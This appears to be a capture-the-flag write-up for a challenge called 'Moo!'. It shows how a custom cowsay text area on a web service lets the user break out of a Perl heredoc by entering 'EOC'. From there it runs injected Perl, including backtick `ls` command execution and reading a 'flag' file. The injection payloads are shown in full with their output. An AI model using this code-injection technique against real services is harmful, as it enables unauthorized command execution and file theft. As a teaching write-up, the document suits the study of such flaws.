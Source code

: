 # Moo! 
## Capture the Flag
Viewing all the different cows, we find that custom_cow looks interesting because it has more inputs like `$eyes`, `$tongue`, and `$thoughts`. All variables are used in the `custom_cow` text area. Try to use a new variable like `$test` and you'll get an error message:

> $ must be escaped with \ except when using $thoughts, $eyes or $tongue

The text area interprets some variables. This tells us that this text area is vulnerable to input.

Doing a bit more research on cowsay brings us to the cowsay package site. From here you can download the source and inspect the different cow files. Notice that all cow files are multiline comments that use `EOC` as the start and end symbol. For example, the ghostbusters cow looks like this:

```
##
## Ghostbusters!
##
$the_cow = <<EOC;
          $thoughts
           $thoughts
            $thoughts          __---__
                    _-       /--______
               __--( /     \\ )XXXXXXXXXXX\\v.
             .-XXX(   O   O  )XXXXXXXXXXXXXXX-
            /XXX(       U     )        XXXXXXX\\
          /XXXXX(              )--_  XXXXXXXXXXX\\
         /XXXXX/ (      O     )   XXXXXX   \\XXXXX\\
         XXXXX/   /            XXXXXX   \\__ \\XXXXX
         XXXXXX__/          XXXXXX         \\__---->
 ---___  XXX__/          XXXXXX      \\__         /
   \\-  --__/   ___/\\  XXXXXX            /  ___--/=
    \\-\\    ___/    XXXXXX              '--- XXXXXX
       \\-\\/XXX\\ XXXXXX                      /XXXXX
         \\XXXXXXXXX   \\                    /XXXXX/
          \\XXXXXX      >                 _/XXXXX/
            \\XXXXX--__/              __-- XXXX/
             -XXXXXXXX---------------  XXXXXX-
                \\XXXXXXXXXXXXXXXXXXXXXXXXXX/
                  ""VXXXXXXXXXXXXXXXXXXV""
EOC
```

If we enter `EOC` in the custom_cow text area, notice that it does not appear in the result. The command likely ran. Now try to print something.

```
EOC
print "HELLO_WORLD\n";
```

You will get:

```
HELLO_WORLD
 ___________
< $thoughts >
 -----------
```

Now we know we can execute whatever we want. Try printing the directory.

```
EOC
print `ls`;
```

The result:

```
flag
server.py
templates
 _________
< message >
 ---------
```

Now print the flag file:

```
EOC
print `ls`;
open (FH, 'flag');
print <FH>;
```

And get the flag: 
```
flag
server.py
templates
AOTW{the_perl_cow_says_moo} 
_________
< message >
 ---------
```

https://packages.ubuntu.com/source/bionic/cowsay